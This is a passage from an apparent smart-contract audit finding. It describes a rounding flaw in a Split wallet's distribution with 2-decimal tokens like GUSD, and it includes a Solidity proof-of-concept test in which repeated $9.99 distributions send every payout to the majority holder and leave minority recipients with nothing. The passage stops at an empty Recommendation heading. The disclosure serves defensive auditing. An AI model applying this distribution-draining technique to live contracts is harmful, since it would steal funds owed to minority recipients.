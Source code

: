 (Note that, while GUSD is a rarer token with wei valued at $0.01 USD, more common tokens like WBTC could face a similar risk, with wei valued at $50,000 / 10**8 = 1/20th of a cent.)

### Proof of Concept

The following lays out the worst case scenario. A Split is heavily skewed towards a single user and the token being distributed has only 2 decimals. In this case, any time that $9.99 USD is distributed, it results in $8.99 going to the majority shareholder, while the other dollar remains in the Split. If this is repeated, the majority shareholder ends up with all the funds.

```solidity
function testZach_distributeMajorityTheft() public {
    // set up a split with 101 receivers, a 90% majority and one hundred 0.1% minorities
    address[] memory _receivers = new address[](101);
    uint[] memory _amounts = new uint[](101);

    _receivers[0] = makeAddr("majority");
    _amounts[0] = 900;

    for (uint i = 1; i < 101; i++) {
        _receivers[i] = address(uint160(i));
        _amounts[i] = 1;
    }

    SplitV2Lib.Split memory split = SplitV2Lib.Split({
        recipients: _receivers,
        allocations: _amounts,
        totalAllocation: 1000,
        distributionIncentive: 0,
        distributeByPush: true
    });
    wallet.initialize(split, address(0));

    // start the split off with $1000 of GUSD (1000_00)
    GUSD gusd = new GUSD();
    deal(address(gusd), address(wallet), 1000 * 10 ** gusd.decimals());
    assertEq(gusd.balanceOf(address(wallet)), 1000_00);

    // distribute GUSD in chunks of $9.99, which will only send funds to the majority
    for (uint i; i < 111; i++) {
        wallet.distribute(split, address(gusd), 9_99, 0, address(0));
    }

    // most GUSD is with the majority shareholder; the rest is in the wallet; minority partners have none
    assertEq(gusd.balanceOf(_receivers[0]), 997_89);
    assertEq(gusd.balanceOf(address(wallet)), 2_11);
}
```

### Recommendation
